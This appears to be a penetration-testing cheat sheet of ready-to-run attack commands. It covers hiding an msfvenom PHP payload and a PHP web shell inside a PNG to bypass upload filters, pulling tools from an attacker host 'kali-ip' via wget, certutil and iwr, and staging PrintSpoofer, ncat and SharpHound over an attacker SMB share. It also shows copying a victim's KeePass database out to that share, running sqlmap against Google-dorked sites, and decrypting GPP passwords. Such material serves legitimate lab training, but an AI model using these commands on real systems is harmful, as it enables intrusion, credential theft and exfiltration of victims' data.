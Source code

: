# Image upload bypass

Inject payload on image data
```bash
head -n100 real_image.png > payload_image.png
msfvenom -p <payload> LHOST=<kali-ip> LPORT=4444 -f php -o msfvenom_payload.php
cat msfvenom_payload.php >> payload_image.png
```
Inject payload on image metadata
```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' payload_image.png
curl http://website.org/uploads/payload_image.png?cmd=whoami
```

-----------------------

# File transfering via HTTP

Serve File
```bash
python3 -m http.server 80
```
Linux
```bash
wget http://kali-ip/filename
curl http://kali-ip/filename -o filename
```
Windows
```bash
certutil -urlcache -f http://kali-ip/filename filename
iwr -uri http://kali-ip/filename -OutFile filename
(New-Object Net.WebClient).DownloadFile('http://kali-ip/filename', 'filename')
```
-----------------------
# File transfer via SMB

Serve Folder
```bash
impacket-smbserver -ip 192.168.45.177 -smb2support -username sombi -password sombi SombiShare files
```
Connect via powershell
```bash
$pass = convertto-securestring 'sombi' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('sombi', $pass)
New-PSDrive -Name sombi -PSProvider FileSystem -Credential $cred -Root \\192.168.45.245\SombiShare

cd kali:
copy kali:\PrintSpoofer64.exe C:\TEMP
copy kali:\ncat.exe C:\TEMP
copy kali:\SharpHound.exe C:\TEMP
```
Connect via native windows
```bash
net use X: \\192.168.45.172\SombiShare /user:sombi sombi
xcopy C:\Users\milana\Documents\Database.kdbx X:\ /Y
```
-----------------------

# user SMB server within the Windows machine (Native Windows)
```bash
net use X: \\192.168.45.172\SombiShare /user:sombi sombi
xcopy C:\Users\milana\Documents\Database.kdbx X:\ /Y
```
-----------------------

# SQLMAP dorks
```bash
sqlmap -g "inurl:\"php?id=\"" --random-agent -f --batch --answer="extending=N,follow=N,keep=N,exploit=n"

--technique=<letter>
B: Boolean-based blind
E: Error-based
U: Union query-based
S: Stacked queries
T: Time-based blind
Q: Inline queries
```
-----------------------

# Decrypt Secure string Windows
```bash
<Properties>
...
cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
...
</Properties>

gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
-----------------------

# Take ownership of file on Windows
```bash
takeown /F filename
cacls id_rsa /E /G "Administrators":R
```
-----------------------

# Fix windows path
```bash
echo %path%
C:\Users\tony\AppData\Local\Microsoft\WindowsApps

#let's update the path
set PATH=%PATH%;C:\Windows\System32\;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\wbem\;
```
-----------------------

# List crackmapexec modules
```bash
# Find modules for SMB
crackmapexec smb -L

# Using module with flag `-M`
crackmapexec smb -M spooler
```

